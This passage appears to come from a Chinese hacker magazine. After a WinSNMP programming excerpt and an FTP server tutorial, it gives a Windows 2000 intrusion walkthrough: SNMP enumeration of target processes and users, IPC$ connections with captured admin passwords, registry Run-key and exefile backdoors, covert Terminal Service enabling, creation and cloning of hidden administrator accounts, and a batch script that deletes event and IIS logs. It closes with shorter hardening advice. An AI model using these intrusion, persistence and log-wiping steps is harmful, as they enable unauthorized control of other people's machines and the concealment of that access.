  HSNMP_PDU PDU;          // 一个 PDU 块
};
```

以上结构除前两个为系统已定义外，其它则是为了方便大家理解由我自己描述合成的。SNMP API 的关键函数与处理过程介绍（从上而下），也是一般 SNMP API 编程的步骤，如下表：

| 程序作用 | 相关函数与描述 |
|---|---|
| 打开 WinSNMP 应用对象 | SnmpStartup |
| 创建 WinSNMP 会话对象 | SnmpCreateSession |
| 创建一个 PDU 消息块内的 VBL（variable binding lists） | SnmpCreateVbl, SnmpSetVb |
| 创建 PDU 消息 | SnmpCreatePdu |
| 发送 SNMP 消息请求 | SnmpSendMsg |
| 接收 SNMP 消息请求 | SnmpRecvMsg |
| 提取接收到的 PDU 消息块中 VBL | SnmpGetPduData |
| 提取 VBL 中的多个 VB 对象 | SnmpCountVbl, SnmpGetVb |
| 关闭一个 WinSNMP 会话 | SnmpClose |
| 关闭一个 WinSNMP 应用 | SnmpCleanup |

接下去给我的具体程序做一些解释：

- 程序为一个基于 Dialog 的 MFC AppWizard（exe）项目。
- 运行界面如图 5 所示，单击列表中 Agent 地址，返回显示右边四个对象信息。
- 程序的流程图如图 6 所示（浅色框模块为前面深色框模块的分解）。
- 为了使程序接口友好，定义了一个 `CSnmp` 类，同时重新封装了 SNMP API 函数为该类成员函数（定义在 `Snmp.h`，完整实现在 `Snmp.cpp`）。
- 程序主要执行模块为 `SnmpManagerDlg.cpp`（头文件 `SnmpManagerDlg.h`）。

```cpp
// 初始化对话框
BOOL CSnmpManagerDlg::OnInitDialog()
{
    ...
    pList->AddString("172.31.31.50");
    m_initOid[1] = "1.3.6.1.2.1.1.1.0"; // sysDescr
    m_initOid[2] = "1.3.6.1.2.1.1.2.0"; // sysObjectID
    m_initOid[3] = "1.3.6.1.2.1.1.3.0"; // sysUpTime
    m_initOid[4] = "1.3.6.1.2.1.1.5.0"; // sysName
    pSnmp.CreateSession(CSnmpManagerDlg::m_hWnd, wMsg);
    ...
}

// 当鼠标单击列表中 Agent 地址时自动发送查询信息
void CSnmpManagerDlg::OnSelchangeList1()
{
    ...
}
```

```cpp
// 填充 PDU 消息，并发送 GET Request
void CSnmpManagerDlg::Start()
{
    pSnmp.CreateVbl(m_initOid[1], NULL);
    for (int i = 2; i <= 4; i++) {
        pSnmp.SetVbl(m_initOid[i]);
    }
    pSnmp.CreatePdu(SNMP_PDU_GET, NULL, NULL, NULL);
    pSnmp.Send(m_Agent, "public");
}

// 处理接收到的返回消息
void CSnmpManagerDlg::OnRecv()
{
    pSnmp.Receive(m_sOid, m_value);
    for (int i = 1; i <= pSnmp.nCount; i++) {
        switch (m_value[i]->syntax) {
        case SNMP_SYNTAX_INT:
            ...
            break;
        case SNMP_SYNTAX_TIMETICKS:
            ...
            break;
        case SNMP_SYNTAX_NSAPADDR:
            ...
            break;
        case SNMP_SYNTAX_OID:
            ...
            break;
        case SNMP_SYNTAX_ENDOFMIBVIEW:
            ...
            break;
        }
    }
}
```

## IP 端口

```cpp
empty = m_value[i]->value.empty;
str[i] = "No Value Returned";
break;
default:
    break;
}

// ……块显示先前指定 OID 对应的返回值
}
```

> 注意

程序代码中涉及的所有 SNMP API 的具体声明，以及除了 Get 与 Response 请求外的更多 SNMP API 应用，请参考下面 MSDN 地址：

http://msdn.microsoft.com/library/default.asp?url=/library/en-us/snmp/snmp/about_the_winsnmp_api.asp

最后，你想了解 SNMP 的具体发展，可以参看更新的 RFC 标准。相关标准有 RFC1155、1157、1213、1901、1902、1903、1904、1905、1906、1907、1908、2089。参考：http://www.china-pub.com/computers/eMook/emooknew/RFC/rfc.asp，那里有很多翻译好的 RFC 文档。

另外补充说一点，只要你足够强，你也可以自己编写自己的 MIB 库、自己的 SNMP Agent 和 NMS 管理器。

FTP 与 TFTP 有什么区别呢？小二搔搔脑袋说，区别可能在于 TFTP 比 FTP 多了个字母“T”吧！（场下的读者一阵狂笑）经过一阵思索，小二终于对两者的主要区别及共同点有所悟，于是又开始了这次“小二”之旅。Are you ready? GO!

什么是 TFTP？TFTP 是一个基于 UDP 协议的文件传输协议。由于基于 UDP 的缘故，它在文件传输中具有传输量大、传输速度较快，但不稳定、容易遗失资料的特点。另外，它还具有 FTP 所没有的独特特点，那就是可以绕过主机的用户名和口令验证及 IPC$ 通道。

与之对应的 FTP（FILE TRANSPORT PROTOCOL）却具有相反的风格：传输稳定、成功率高，但速度比较慢。

那它们两者的共同之处又在哪里呢？就像 2002 年第八期的《黑客 X 档案》的“杀切”的上传和下载方法所说的一样，它们都是在 DOS 界面完成的；都需要一个服务器支持，不管是第一方，还是第二、三方。对于 TFTP，我们一般都会下载服务器文件 `TFTPD32.EXE` 来支持；而对于 FTP，我们（菜鸟级）经常就是通过第三方的服务器申请一个免费或者付费的 FTP 空间。

由于种种原因，这种方法的弊端显而易见。那么有没有更好的办法呢？答案是肯定的！那就是自己构建第一方服务器。下面小二就为大家介绍这道菜的“工序”。

首先，看看我们的操作系统是不是 WIN2K 或者以上版本，如果是的话，请准备一张系统光盘。

因为 WIN9X 中虽然有 WEB 服务器，但它不像 WIN2K、WINXP 那样有 FTP 服务器。

接着，开始安装 FTP 服务器，放入光盘，安装组件（IIS），完毕后的界面如图 1 所示。

或许你会以为这样就行了吗？不，还要对它进行配置，使它能符合我们的要求，配置步骤如下：

- 1. 在 FTP 站点属性中选择“FTP 站点”，在“IP 地址(I)”中填入 IP 地址（你在 INTERNET 上的 IP），还有“TCP 端口”，一般为默认值，如图 2 所示。
- 2. 接着配置“安全账号”，为后面的验证提供依据，如图 3 所示。
- 3. 然后配置“主目录”，在“连接到此资源时，内容应该来自于：”的值为第一个选项。接着在“本地路径”中填上路径，如图 4 所示（图中我设为 G 盘）。

好了，到此 FTP 服务器的配置基本完成。下面我就结合实例把 FTP 命令和服务器结合起来。首先打开命令提示符，在里面输入命令，如图 5 所示。

```bash
ftp> open 172.19.55.20
User (172.19.55.20:(none)): (输入用户名)
Password: (输入密码)
```

然后，我们用命令看一下是不是能上传文件。先用 `dir` 命令看一下服务器里面的文件（为后面当参照物），如图 6 所示。

```bash
接着再输入命令如下：
ftp> put d:\index.asp
```

（文件的路径，在此例子中我是想把 D 盘中的 `index.asp` 文件上传到 G 盘），如图 7 所示。

命令提示符提示已经成功上传文件。然后我们再用命令 `dir` 看一下是否把我们的文件给传上去了，结果如图 8 所示。

哈哈，我们上传的文件就在这里了。至此，一道“菜”基本工序就完成了，不知道你喜不喜爱？最后我们用 `ftp> bye` 命令退出。

通过自己建立 FTP 服务器绕过第三方服务所带来的麻烦，这样我们就可以节省很多时间和精力。在实战当中，只要获得肉鸡的 SHELL，我们就可以用这种办法快速地给肉鸡送“礼物”或者“动它的奶酪”。

顺便说一下，对于肉鸡的 SAM 文件，用这种方法结合工具“流光”，那我们就不用为找 FTP 空间而烦恼了，你说是吗？

## 主题乐园

## 浅谈 Win2k 攻防工具

Python

> 相信现在大部分朋友早已系统地从 NT 向 Windows2000 过渡。Windows2000 由于其方便易用且功能强大，受到很多网管的欢迎，因此，也就有越来越多的网站或是服务器开始逐步由 NT 向 Windows2000 迁移。  
>  
> 不但网管们喜欢，其实，相当多的黑客技术爱好者也都使用 Windows2000 来进行 hacking 活动。但是不知道大家在 hacking 的过程中，是否完全使用并且发挥了 Windows2000 的真正力量呢？  
>  
> 如果答案是否定的话，那么，我想你就有必要来看看这本小册子了。  
>  
> 在这里，笔者将针对 Windows2000 系统自带的一些网络“攻击”工具（当然，当初设立的目的可不是用做黑客软件的，只是被我们伟大的黑客们巧妙地利用起来）和安全防御工具进行详细讲解。希望能对大家有所帮助！  
>  
> 本次试验的条件要求很简单：一台可以上网的、并且安装了 Windows2000 的电脑。好了，咱们开始吧。

## 一、Windows2000 入侵篇

这部分，我们将给大家介绍一些工具在入侵过程中的利用方法和小小技巧。下面我们首先从搜集信息开始。

#### 1. 搜集信息

- i. 检测连通状况
- ii. 获取主机版本信息  
  - 1）由 WEB 服务获取信息

入侵前搜集目标的信息是十分必要的，所谓“知己知彼，方能百战不殆”。如果对方主机的相关信息知之甚少的话，那就得想方设法获取对方的信息。

我们知道，线路状况的好坏对入侵是有很大影响的。这里我们使用大家熟知的 `ping` 命令，比如我们 ping `www.sohu.com`，如图 1 所示。

不知道大家平时在使用 ping 命令的时候是否注意到，有这样一条返回信息：`Lost=0(0% loss)`。这个信息说明在发送数据包时的丢包率为 0%，也可以看出 `Sent=4, Received=4`。

线路证明没有问题后，那这一步我们就得去刺探主机的一些基本信息了，目的当然是为了“对症下药”。对于一个网站来说，使用 `telnet ip 80` 可以连接到对方的 80 端口（默认 WEB 服务端口），随后输入 `get` 并回车，可根据返回信息判断服务类型。

> 也许大家在 ping 主机的时候会出现 “Request timed out” 的信息。这样的情况并不一定是目标主机不在线，也有可能是因为对方安装了防火墙，而防火墙又过滤了 ICMP 数据包，这样就出现了 Request timed out 的信息。  
>  
> 解决办法是可使用如 X-SCAN 这样的扫描工具，并设置为“无条件扫描”。

### （2）由 FTP 获取对方的信息

方法异常简单，只需要：`ftp ip`

然后根据返回信息就可以判断对方的 FTP 服务器版本信息。我这里使用 `ftp 2xx.xxx.xxx.68`，得到对方 FTP 服务器相关信息，可看出对方 FTP 服务器是 Serv-U 3.0 版，如图 3 所示。

### iii. 获取主机名

这里，我们将利用 NETBIOS 来获取对方的主机信息。格式：`nbtstat -a ip`，如图 4 所示。

从这里，我们可以得知对方主机名为 GYS，而且是工作组模式。最后一行的 `MAC Address` 还列出了对方的 MAC 地址（即网卡地址）。

> **经验之谈**：对方的主机名（比如此为 GYS）通常被使用者赋予明显含义。很多时候可由主机名推测用途或人员信息（仅作经验参考）。

### iv. 最详细的主机信息获取方法

接下来介绍一种方法，可获取非常详细的主机信息（例如系统进程、用户列表等）。前提是对方安装了“管理和监视工具”，如图 5 所示。

这里所说到的管理和监视都是基于 SNMP 协议的。简单介绍一下相关方面的知识：

> **小知识**：SNMP 是一种简单网络管理协议，主要用于管理网络设备（如路由器等）。在 Windows 2000 中可加入 snmptrap 服务。主机发生特定事件时会发送 trap 消息到管理端，管理端据此实现“管理和监视”。

> **小提示**：虽然常说“管理和监视工具”使用 SNMP，但 snmptrap 发送陷阱消息时常通过 UDP 完成传输。

OK！继续我们的主题。如果对方安装了“管理和监视工具”，可使用 Windows2000 Resource Kit 中的 `snmputil.exe` 查看对方信息。先用扫描工具定位目标主机（例如 X-scan），若返回“SNMP 信息”及常见 community（如 `public`），即可进一步查询。

为了更清楚说明，下面举例：先确认对方安装“管理和监视工具”，然后使用 `snmputil`（Resource Kit 工具）通过 SNMP 服务查看信息。

格式：`snmputil get(or walk or getnext) public oid`

其中 `get/walk/getnext` 是查询方式，`public` 是常见 community 字符串，`oid` 可理解为被查询对象的 ID。

SNMP 查询，获得了一些信息，使用命令为：

```bash
snmputil walk 192.168.0.115 public .1.3.6.1.2.1.25.4.2.
```

### 1.2

回车执行后，大家可以看到返回了相当多的信息，如图 6 所示。如果再仔细观察的话，是否能发现什么？使用 Windows2000 的朋友可以打开你的任务管理器看看里面的进程选项卡，呵呵，是不是和这个列表里的信息很像？这个命令的作用就是查询对方进程的，怎么样？很实用吧？

相关的其它命令，在此列举一些：

- `snmputil walk ip public .1.3.6.1.2.1.25.4.2.1.2`：列出系统进程
- `snmputil walk ip public .1.3.6.1.4.1.77.1.2.25.1.1`：列系统用户列表
- `snmputil get ip public .1.3.6.1.4.1.77.1.4.1.0`：列出域名
- `snmputil walk ip public .1.3.6.1.2.1.25.6.3.1.2`：列出安装的软件
- `snmputil walk ip public .1.3.6.1.2.1.1`：列出系统信息

使用这些命令后，返回的信息都比较多，大家千万要仔细看，里面有很多有用信息，不要放过任何一点信息哦！

#### 2. 连接目标

我们已经获取了对方主机的大量信息。接下来，你只要凭够幸运碰上个弱口令或是什么 IIS 漏洞，或者有足够的耐心去破解账号等等，总之，就是搞到一个有管理员权限的账号（方法很多，就不一一讲解了）。这时候我们该做的就是连接目标主机了，正所谓“入侵”嘛，不进入对方主机怎么叫“入侵”呢。

所以，这部分给大家介绍几种 Windows2000 所自带的常用连接主机手法。

### i. 最基本的连接方式——IPC$ 连接

> “IPC$ 是共享命名管道的资源，命名管道是程序间通信的基础。它在远程管理计算机和查看计算机的共享资源时使用。”

以上是 Windows2000 的帮助中对 IPC$ 的定义。从这个定义不难看出，IPC$ 可以说是一切进程间连接的基础……所以说连接注册表前要先建立 IPC$ 连接。

```bash
net use \\ip\ipc$ "password" /user:"username"
```

> 旺崽：需要注意一些问题，由于 IPC$ 也属于共享，所以在建立 IPC$ 连接的时候，会尝试使用 TCP 139 端口进行连接；如果 139 连接失败的话，在 Windows2000 中会使用 445 端口进行连接。  
>  
> 另外，如果想和对方建立 IPC$ 连接的话，那么你的机器上的 IPC$ 共享也必须开启，这样才能建立起连接。

（右栏）围绕 Windows98 下 IPC$ 无法建立连接、建立连接后访问注册表、为何要连接注册表、如何在本机运行 `regedit` 并通过“注册表→连接网络注册表”输入目标 IP/机器名来连接的说明与对话。

回车，等待，过一会就会看到你的注册表里多了点东西，如图 8 中圈起来的部分，这时候就可以修改并编辑对方的注册表了。

在编辑注册表的时候，选择后门绑定的位置也是很重要的，如果绑定不正确则无法达到目的。在这里，给大家一点建议，给出一些可以随机启动的注册表位置给大家做个参考：

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx
```

在以上位置，在右边窗口里新建一个字符串值，字符串的名字尽量改得像系统的程序名一样，以迷惑对方。然后修改字符串，在“数值数据”一栏中写上后门程序的位置，这样一来，下次对方开机的时候也会随计算机启动你的后门程序。另外，还有两个位置也可以：

```text
[HKEY_CLASSES_ROOT\exefile\shell\open\command] 值：默认="%1" "%*"
[HKEY_LOCAL_MACHINE\Software\CLASSES\exefile\shell\open\command] 值：默认="%1" "%*"
```

将上面的“%1 %*”改为“c:\backdoor.exe %1 %*”，这样的话，就像关联型木马一样了，每次运行 exe 文件的时候，都会激活你的后门程序 c:\backdoor.exe。

## ii. Telnet 连接（就像回到了 DOS 时代）

Windows 2000 自带了一个 telnet 服务端，只要得到了对方管理员账号和密码，那么，当与对方建立了 telnet 连接后，就可以完全控制对方主机了，控制起来也很简单。上面讲过，当我们得到了管理员账号和密码的时候，可以建立一个 IPC$ 连接，只要建立了 IPC$ 连接，我们就可以得到对方的 telnet shell。接下来可以通过 at 命令定时启动对方的 telnet 服务，也可以通过复制文件并结合 ntlm.exe 等方式处理验证问题；另外也可以通过“以其他用户身份运行”cmd.exe 的方式直接进行 telnet。

如果得到的对方用户名为 administrator，你就可以把你的 administrator 密码修改，改成和对方的密码相同，然后使用 administrator 登录你的计算机，直接 telnet 对方就可以了，这种方法也不需要使用小榕的 ntlm.exe。至此，可以说我们完全控制对方主机了！

## iii. Terminal Service 连接

（完全的图形界面，一个字——棒！）说到 Terminal Service 的时候，可能有些小鸟还不是很清楚，但是如果我说端口 3389 的话，呵呵，它的大名就无人不知了吧？该端口就是 Terminal Service 对应的服务端口。先在目标系统安装并启动 Terminal Service 服务，得到管理员密码后建立 IPC$ 连接，再上传并执行用于开启服务的批处理文件。

```bat
echo [Components] > c:\sql
echo TSEnable = on >> c:\sql
sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\sql /q
```

如果大家使用的是 telnet 的话，可以用以下方法直接建立 3389.bat 文件。首先键入“copy con 3389.bat”命令，然后回车，并逐行写上面的内容，最后按 Ctrl+Z 并回车结束。然后直接键入 3389.bat 执行即可。接下来需要重启机器，因为安装 Terminal Service 后需要重启才生效。并且要注意隐蔽，避免在重启期间被管理员发现。

图9

> 还有一点值得注意的是：对方在这种方式安装完成 Terminal Service 后，会在对方……

……的 C 盘根目录下多一个 sql 文件，如果管理员细心的话，很容易就被发现了。如果大家的系统是 server 以上版本，可以自己实验着看。

而且还是隐藏的，要想看到它的话，可以这样做：打开“我的电脑”→“工具”→“文件夹选项”→“查看”→去掉“隐藏受保护的操作系统文件（推荐）”前的勾，并选中“显示所有文件和文件夹”，这时候就可以看到了，如图12所示。

重新启动后，打开 Terminal Service 客户端（如图10所示）：开始→程序→管理工具→终端服务客户端……

图10

填上对方的 IP 地址，然后点连接，过一会就会打开一个窗口（如图11所示），连接成功，界面和 Windows 2000 的操作界面完全一样，所以就不用我说怎么用了吧！

> **注：** 顺便说一句，前几天……先测试一下输入法漏洞也是个不错的选择哦！

图11

## 3、扩大成果

说明白点，就是给对方安个后门，以保留我们的战果。这里为大家介绍几种常用的方法：

### i. 安置木马的位置选择

- 位置一：`C:\recycled`（`D:\recycled`、`E:\recycled` 等也可以）
- 该文件夹受系统保护，默认不易被注意。

图12

很多杀毒软件都不对这个文件夹进行查毒杀毒，所以这里很安全。

> **注：** 有的系统中，该文件夹名并不是 recycled，而是 recycler，不知道是为什么，很奇怪，所以大家要注意一下。

另外，还可以配合注册表来使用，只要把木马的启动位置写到注册表的启动项里……只要没有删除木马的 server 端，每次机器重新启动的时候还是会启动木马的。

- 位置二：`C:\WINNT\system32`
- 在对方没有杀毒软件的情况下，这个位置也是不错的选择。
- 也可以把木马种在更深的文件夹里，提高隐蔽性。

### ii. 建立后门帐号

很通俗的一个方法了，但是对那些懒惰的管理员来说，这还是一个相当好用的方法……

```bat
net user python ghost /add
net localgroup administrator python /add
```

> **注：** 解释：添加密码为 ghost 的管理员帐号 python。

大家在建立帐号时，有时候也不要太个性化，尽量建立一个与系统中已有帐号相似的帐号，这样被发现的可能性也会相对减少一点。

### iii. 克隆帐号

本来这部分是不应该放在这里讲的，因为克隆帐号用到的工具并不是系统自带的工具，而是小榕的一个工具，但是对于 Windows 2000 的入侵，这个玩意是太有用了，所以我也不管那么多了，就暂时放下主题不管，把这个工具介绍给大家吧。

阿呆旁白：Python 果然不太机械啊，鼓掌。

### 工具名：CA

下载回来的 ca 有两个 exe 文件：ca 和 cca，ca 就是用来克隆 administrator 的工具了，而 cca 是用来检查克隆结果的。

```text
ca \\ip admin password
IWAM_COMPUTERNAME hackerpassword
```

- ca：就是指这个程序。
- \\ip：是对方的 IP 地址，这里要使用 UNC 路径。
- admin：指有管理员权限的任一管理员帐号（前提是你拿到了该帐号密码）。
- password：admin 的密码。
- IWAM_COMPUTERNAME：主机内置用户（如机器名为 PYTHON，则可能是 IWAM_PYTHON）。
- 其它内置帐号示例：IUSR_COMPUTERNAME、TsInternetUser、VUSR_COMPUTERNAME、Guest（多属于 Guest 组）。

> **注意：** 如果目标系统存在某些服务漏洞或配置问题，也可能出现可用帐号；但通常不建议长期使用 Guest，容易被发现。

这里，我克隆了 IWAM_COMPUTERNAME 这个用户，并设置了密码为 python，如图13所示。

根据返回信息可以看到，一切都 OK 了，这就是克隆成功了。阿呆：你这和提升管理员权限不是一样嘛！Python：当然不一样了，不信咱们看着。

接下来，我们来看这个帐号的信息。使用 `net user IWAM_COMPUTERNAME` 命令来查看这个用户信息，我们可以看到，查看的信息中（如图14所示），这个用户还是属于 Guest 组的；其实这个帐号早就被我们提升成为管理员权限了。为了确定提升是否成功，用 `cca` 来检测一下这个帐号，格式为：`cca 帐号 密码`（如图15所示），确定一切都 OK 了，这就说明这个帐号确实提升成功了，可以放心使用了。

### iiii. 其它后门

如果大家是直接得到管理员的帐号和密码，而不是通过普通用户进行提升的话，那么就可以不必再建立管理员帐号了，这样相对就安全许多了。

但是，后门总得留一个吧。

首先，Terminal Service 服务本身就是一个大后门了，如果对方不关闭该服务的话，那么就随时欢迎您的光临了。

另外，我们可以打开对方的 telnet。不过这个服务比较顽固，而且登录过程比较麻烦，因为默认有 NTLM 验证。但是我们可以在对方机器上运行 tlntadmn 来修改一些配置，如图16所示。

首先是修改端口，根据 tlntadmn 的提示一步一步修改就可以了。

建议把端口修改成高位端口，越高越好（如 65530），这样在他人扫描时更不易被发现；随后需要修改 NTLM 验证，并按提示进入相应界面进行设置。

图17 说明可修改 NTLM 的值（如改为“0”），之后再通过 telnet 测试；同时提到可利用 FTP，但不推荐滥用，因为仍有较高被发现或被利用风险。

## 4、清除脚印

本节讨论入侵后的日志清理与痕迹处理，强调若不清除脚印，前面操作可能前功尽弃；并指出可优先使用 Windows 2000 自带命令与工具。

> 注：关于 `kill` 的用法，文中提示可用于手动终止进程（引用自往期内容）。

文中建议先上传 support tools 中的 `kill.exe` 到对方 `C:\WINNT\system32`，并建立批处理文件 `clean.bat`。

```bat
net stop w3svc
kill -f eventlog
del c:\winnt\system32\logfiles\w3svc1\*.* /f /q
del c:\winnt\system32\logfiles\w3svc2\*.* /f /q
del c:\winnt\system32\config\*.evt /f /q
del c:\winnt\system32\dtclog\*.* /f /q
del c:\winnt\system32\*.log /f /q
del c:\winnt\system32\*.txt /f /q
del c:\winnt\*.txt /f /q
del c:\winnt\*.log /f /q
net stop w3svc
del c:\clean.bat /f /q
```

随后说明：若使用 telnet 可通过 `copy con` 建立文件；若使用 IPC$ 可用 `at` 命令定时启动。并比较了 telnet 与 IPC$ 在日志残留上的差异。

```text
c:\winnt\system32\logfiles\w3svc1\*.*
c:\winnt\system32\logfiles\w3svc2\*.*
c:\winnt\system32\dtclog\*.*
c:\winnt\system32\*.log
c:\winnt\system32\*.txt
c:\winnt\*.txt
c:\winnt\*.log
```

接着建议在“事件查看器”中手动删除日志，并提醒不要误做备份，否则可能保留不应存在的痕迹。

## 三、Windows 2000 防御篇

本段转入防御主题：强调个人系统安全的重要性，建议采用防火墙等基础防护措施，并指出正确配置同样关键。

## 1、用户帐号的密码问题

老生常谈啊！每次说到安全问题都要涉及到密码的问题，虽然我不想说，但是还是有很多朋友认为这是无所谓的，尤其是一些作为个人上网的朋友，认为黑客永远不会光临他的电脑，所以根本就不注意这些问题，然而事实并非是这样的。现实是残酷的，多少朋友都向我哭诉过他们的硬盘被格的过程，教训是惨痛的，大家应该引以为戒啊。阿瓜，废话其多~~~~

Windows 2000 支持很多服务，而且很多服务在安装完成后都会有默认的帐号，这些帐号大部分都是 Guest 组的。虽说如此，但是现在已经有很多漏洞可以被利用。以自己本地机的权限，像 debug、net dde 等，所以，开启着 Guest 组的帐号仍然是很危险的。（其危险主要是在这些 Guest 帐号在默认情况下密码都是为空，哎，真是要命）。

因此，我们要禁止不使用的帐号和全部的 Guest 帐号（如图18所示），对于一些小型的网络，如果需要有外部人员访问服务器的话，那么可以适当地开启 Guest 帐号，但是一定要加上密码。

图18

对于个人用户来说，只开启 administrator 帐号就可以了。另外，如果你的 administrator 帐号密码不够强悍的话，最好将 administrator 改名，以防止别人对你的 administrator 帐号进行暴力猜解。关于密码，就说这么多了，大家也都清楚，只要注意一点，肯定可以制定自己的安全密码。

## 2、服务

对于 Windows 2000 来说，这是一个不得不谈的话题，因为 Windows 2000 最大的特点可以说就在它的服务了。在 Windows 2000 中，系统把所有的应用程序都注册为一个服务，因此……这说明了一个十分严重的问题。正是因为系统把所有的应用程序都注册为服务，所以可以说每个应用程序都拥有一个自己的套接字，拥有了自己的套接字就说明该应用程序可以独立地在网络与其他主机的相同应用程序进行通信（简单点说，每个应用程序都可以在网络上与其他主机相同的应用程序进行通信或是交换数据等等），那么，如果遇到了“非法外人”的话，呵呵，可想而知，你的机器就危险了（不过前提也是需要该应用程序有可以被利用的漏洞才可以）。

> 小知识：socket 在英文中是“套接字”的意思。通常一个套接字由一台主机的 IP 地址和该主机中某个程序的端口号组成。IP 地址用于标识主机，端口号用于查找主机上的应用程序。

IP 地址是用来标识主机，以使数据包在传送过程中可以准确地到达主机，而端口号则是用来查找主机上的应用程序的。当数据包到达主机后，便会根据端口号来查找应用程序，以决定使用哪个应用程序来处理该数据。

看了上面的介绍后是不是感觉上网很危险，其实也不用怕，因为一些应用程序并非网络应用程序，一般情况下是不会主动发送或接受网络请求的，除非该程序有漏洞。在这里，我把这些告诉大家的目的是想让大家知道，真正的黑客是无孔不入的，所以千万要小心。

- telnet 服务：允许远程用户登录到系统并且使用命令行运行控制台程序。
- Terminal Service 服务：提供多会话环境，允许客户端设备访问虚拟的 Windows 2000 Professional 桌面会话，以及运行在服务器上的基于 Windows 的程序。
- Task Scheduler 服务：允许程序在指定时间运行。
- Workstation 服务：提供网络链接和通讯。

以上四种服务，除了 Terminal Service 是 Windows 2000 Server 以上版本特有的服务外，其它三种服务在一般的 Windows 2000 操作系统中都有。这四种服务可以说是 Windows 2000 中最危险的四项服务了（至少我是这么认为的）。

图19

介绍一下这四个服务，其中 telnet 和 Terminal Service 的危险性就不用我多说了吧，前面已经介绍过了，而且在入侵过程中这两个服务也是最常被用到的。至于 Task Scheduler 服务，该服务就是支持 at 命令的服务，使用它可以指定任何计划任务，甚至都可以执行命令行模式下的命令（例如前面说的 net start telnet），可见其危险性不小。最后，这个 Workstation 服务，也许很多人都不太熟悉它，不过看该服务的介绍就有一个简单的了解了。很多主机和主机间的连接都是通过这个服务进行的，例如 IPC$ 连接，如果进行 IPC$ 连接的两台主机中有一台没有开启此服务，则会导致无法建立这个连接。

所以，对于个人上网用户，完全可以关闭这个服务，而不必担心上网问题，因为该服务的关闭是不会影响到浏览网页、下载还有聊 QQ 的。不过，如果你想入侵的话，这个服务就不要关了。

在关闭这些危险服务后，最好能在“控制面板→管理工具→服务”中把这些服务设置为“手动”，如图19所示。

但是要注意，这里千万不要把 Workstation 服务设置为手动，因为该服务不能在 Windows 下手动启动，必须使用“自动”，以让其随机启动（因为该机启动的时候很多设置服务都会初始化，而在 Windows 下手动开启该服务的时候无法完成一些设置和服务的初始化，因此必须使用“自动”以使其能正常启动）。

关于 Terminal Service 服务的一点补充：

其实，Terminal Service 可以通过修改默认的 3389 端口来使其相对更隐秘一些。修改方法并不难，只需要修改注册表就可以实现：

`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\TerminalService\Wds\rdpwd\Tds\tcp`

在右边的窗口里，有键值 PortNumber，双击打开，选择使用十进制查看，发现这个值就为 3389，修改它为 5277（可以随意修改）。

然后再到：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\TerminalService\WinStations\RDP-TCP`，同样查看 PortNumber 并改为 5277，重启后生效。

既然修改了端口，那么连接时就不能连 3389 了，所以在客户端也要进行修改。到“管理工具”里找到“客户端连接管理器”（如图20），选择“文件→新建连接”或直接修改已有连接。

……接，就可以进行正常连接了。

修改方法：先在列表中选中已有连接，选择“文件→导出”（如图21），保存为 `.cns` 文件。随后用记事本打开，找到类似“Server Port=3389”，把 3389 改成 5277，如图22所示。

然后再到“客户端连接管理器”里选择导入，导入这个 cns 文件即可。下次进行连接时，到“客户端连接管理器”双击这个连接即可。

## 3、共享

众所周知，我们“伟大”的微软在 Windows 2000 所有版本中都加入了一些默认共享，这些共享是 admin$、IPC$、C$、D$ 等。其中 admin$ 是指目录 `c:\winnt`（假设系统安装在 C 盘下）。

最直接的方式就是删除这些默认共享了，方法是修改注册表：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters` 下添加双字节键 `AutoShareWks=0`。

```bat
net share ipc$ /delete
net share admin$ /delete
net share C$ /delete
net share D$ /delete
net share E$ /delete
```

（如果还有其他盘的话，可以再添加，例如 `net share F$ /delete`）

保存为 `delshare.bat`，然后放到启动项里，每次开机自动删除；如果需要也可手动执行恢复命令。

另外，若开放 IPC$，可能被利用建立空连接并进行用户枚举与口令猜解，因此建议禁止 IPC$ 空连接。可通过修改注册表：
`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\LSA` 中 `RestrictAnonymous` 的值改为“1”。

## 4、TCP/IP 筛选

通过使用 TCP/IP 筛选可以屏蔽掉我们不想要开放的端口，只开放我们需要的端口。

使用方法：依次打开“网上邻居属性→本地连接属性→Internet 协议（TCP/IP）→属性→高级→选项→TCP/IP 筛选→属性”，先勾选“启动 TCP/IP 筛选”，然后在“只允许”中添加被允许的端口。

一般可按需开放：TCP 20、21（FTP）、25（SMTP）、110（POP3）、80（网页）、139 和 445（共享）；UDP 可按需添加如 4000—4010、53（DNS）等。

因为相对它的危险性不大。

关于屏蔽 UDP 端口，可能大家会有点疑问，认为没有必要屏蔽掉那么多的 UDP 端口。但是，其实这是有必要的，因为现在相当多的 DoS 工具都是通过发送 UDP 协议的数据包来使对方拒绝服务的。而且，不要以为自己是个人上网用户，对方就会放过你；现在很多初学者为了练手可不管那么多。

在这里，还有一个问题：细心的朋友可能会担心，如果只允许像 80、110 这样的低位 TCP 端口，那么当下载或浏览网页的时候，会使用一些端口号在 1024 以上的临时端口，这些端口会不会受到影响而不能使用，最终导致无法浏览网页、无法下载等等……

这个不用担心，这里的筛选对那些临时端口是不起作用的，这些临时端口的开放不会受到影响，所以仍然可以正常下载、浏览网页。


然后会弹出一个属性对话框，在这里可以修改属性。注意这个对话框的最下边，有一行字“镜像 xxxxxxx（后面的字省略）”。看到这里了吧？这个“镜像”有点意思：现在我们指定的策略是阻止本地机对其他任何机器的 ping，如果选择了这个“镜像”的话，不但把这个策略施加到我的本地机上，还会把策略反过来施加。也就是说，不但阻止了本地机对任何机器的 ping，而且还阻止了任何机器对本地机的 ping，所以是否勾选该项由大家自己做决定，如图 25 所示。

## 5、IPsec

这个单词很多人都应该听说过吧？但是，我相信很少有人真正地利用过 IPsec，甚至很多朋友都不知道 IPsec 是做什么的（关于 IPsec，我会在后面介绍）。

这里，我就来教大家使用 IPsec。

只要大家使用的是 Windows 2000 操作系统，无论是 Professional 还是 Server，或是更高的版本，都会支持 IPsec。

在这里，我们以拒绝 ping 为例，为大家做个演示：

